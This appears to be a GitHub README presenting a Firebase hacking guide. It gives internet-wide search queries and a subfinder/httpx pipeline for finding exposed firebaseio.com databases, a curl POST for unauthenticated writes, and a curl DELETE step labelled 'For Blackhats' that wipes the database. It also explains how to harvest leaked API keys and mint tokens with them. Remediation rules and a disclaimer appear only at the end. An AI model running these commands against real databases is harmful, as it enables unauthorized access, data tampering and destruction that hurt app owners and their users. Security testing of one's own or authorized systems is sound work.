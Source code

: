 # 🔥 Firebase Hacking & PoC Testing

## 🚀 Introduction

Firebase is a cloud-based platform that provides backend services such as databases, authentication, and storage for web and mobile applications. However, misconfigured Firebase databases can lead to serious security vulnerabilities, allowing unauthorized users to read and write data. This guide will walk you through the process of identifying and testing Firebase vulnerabilities step by step.

---

## 🕵️‍♂️ Step 1: Finding Firebase Subdomains

First, find subdomains associated with Firebase under `*.firebaseio.com`. You can use tools like:

- Subfinder
- Amass
- Assetfinder
- FOFA, Shodan, ZoomEye (search engines)

Example FOFA, Shodan, ZoomEye queries :

```
FOFA Query: "domain=firebaseio.com"
Shodan Query: "http.title:Firebase"
ZoomEye Query: "site:firebaseio.com"
```

### 🛠 Step 2: Testing if Firebase is Accessible Automated Command to Find Live and Accessible Firebase Subdomains

```bash
subfinder -d firebaseio.com -t 50 | awk '{print $0"/.json"}' | httpx -status-code -mc 200
```

or directly to check one

```bash
echo https://<subdomain>.firebaseio.com | awk '{print $0"/.json"}' | httpx -status-code -mc 200
```

This command will:
1. Find Firebase subdomains using `subfinder`.
2. Filter only live subdomains responding with HTTP `200` using `httpx`.
3. Check if the Firebase database is accessible by sending a `GET` request to `/.json`.
4. Print only the domains that return `200 OK`.

---

## ✍️ Step 3: Testing for Unauthenticated Write Access

Try sending a write request to check if the Firebase database allows unauthenticated write access:

```bash
curl -X POST https://<subdomain>.firebaseio.com/.json -d '{"test":"subhashis_exploit_poc"}' -H "Content-Type: application/json"
```

If the request is successful and data is written and return {"name":"-OKELb6ZxxxxDEiDm7W"} , the Firebase database is vulnerable to **unauthenticated write access**.

## ✍️ Step 3+: How remove the poc For Blackhats 🎩

```bash
curl -X DELETE https://<subdomain>.firebaseio.com/-OKELb6ZxxxxDEiDm7W.json
```

If the request is successful and response is "null" , the Firebase database is deleted.

---

## 🔑 Step 4: Find & Exploit Firebase API Keys

Another method to test Firebase security is by searching for Firebase API keys. You can look for keys in:

- Public GitHub repositories (`AIzaSy` pattern)
- JavaScript files of web applications
- Mobile application decompilation

Example Firebase API key: `AIzaSyDluKZPdsuwxICZvjKi43I7KLLgAHGtxxx`

### 🔍 Testing API Key for Authentication

Use a token generator like [subhashis360.github.io/idtokengenarate](https://subhashis360.github.io/FirebaseHacking/):

1. Paste the API key.
2. Click **Sign Up**.
3. If you receive a valid token, the API key is vulnerable.

---

## 🔒 How to Fix It

### ✅ Secure Firebase Database:

1. Open Firebase Console.
2. Navigate to **Database > Rules**.
3. Update the rules to restrict access only to authenticated users:

```json
{
  "rules": {
    ".read": "auth != null",
    ".write": "auth != null"
  }
}
```

### 🔍 Audit Subdomains:

- Ensure no publicly accessible Firebase databases exist.
- Check for outdated or unused Firebase projects.

### 📊 Monitor Activity Logs:

- Use Firebase’s built-in logging to monitor access and detect unusual activity.
- Enable **Cloud Logging** and **Cloud Monitoring** to track API requests.

---

## 🛑 Disclaimer

This guide is for **educational purposes only**. Unauthorized access to Firebase databases without permission is illegal and may result in severe consequences. Always obtain proper authorization before performing security tests.

---

## 🤝 Conclusion

Misconfigured Firebase databases pose serious security risks. By following the steps above, you can identify vulnerabilities and take corrective actions to secure Firebase applications. Happy hacking responsibly! 🛡
